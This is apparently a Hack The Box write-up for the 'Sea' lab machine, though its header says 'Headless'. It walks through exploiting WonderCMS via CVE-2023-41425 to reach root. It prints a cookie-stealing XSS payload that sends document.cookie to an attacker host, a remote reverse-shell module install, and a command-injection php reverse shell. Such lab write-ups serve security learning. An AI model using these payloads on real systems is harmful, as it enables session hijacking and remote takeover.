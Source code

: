 ```yaml
---
title: "Headless Hackthebox"
date: 2024-07-05
draft: true
tags : ["write-up", "htb"]

---
```


## User flag
### Recon

Firtsly, `sea.htb` is built from [wondercms](https://www.wondercms.com/). You can check it by enumerating the web or searching the string `velik71` appeared on the banner. 

Checking the `/themes/bike/wcms-modules.json`, I found the version of this website is `3.2.0`. It has a [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425) that allows an attacker to a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

I also found a `contact.php` page which allows us to send infomation including a malicous link to the admin.

### Exploitation
I use the `contact.php` page to send a link to the admin to steal the cookie. 

```
http://sea.htb/index.php?page="></form><script>fetch('http://<ip>:<port>?cookie='+document.cookie)</script><form action="
```
Use this cookie to access the admin page


Use the `installModule` to upload a reverse shell to the server and access the server as `www-data`.
```
http://sea.htb/?installModule=http://10.10.14.64:9000/reverseshell.zip&directoryName=essence&type=themes&token=<token>
```
![alt text](/posts/sea-htb/image.png)

Enumerate current directory, I found a database.js file in `/var/www/sea/data` which contains the Bcrypt hash of password. Use `john` to crack it and it is password of `amay`.
![alt text](/posts/sea-htb/image-1.png)

Get the user flag at `/home/amay/user.txt`


## Root flag

List listened ports opened:
```bash
netstat -tulnp | grep LISTEN
```

The local host is running a web on port 8080. I use ssh tunnel to access it. 

```bash
ssh -L 8081:127.0.0.1:8080 amay@10.10.11.28
```
![alt text](/posts/sea-htb/image-2.png)



The web is a *System Monitor* page. The page get the `log_file` parameter to read the file and filter the content. It may uses shell script with php system function like `system` or `passthru`,... to read the file. To get flag, I modified the `log_file` param to shell script to read the root flag and send it to my server.

```bash
; php -r '$sock=fsockopen("10.10.14.8",9000);`/bin/sh <&3 >&3 2>&3`;'
```
![alt text](/posts/sea-htb/image-3.png)


The shell last for a few seconds, so you can change `/bin/sh` to `cat /root/root.txt` to get the root flag.
![alt text](/posts/sea-htb/image-4.png)

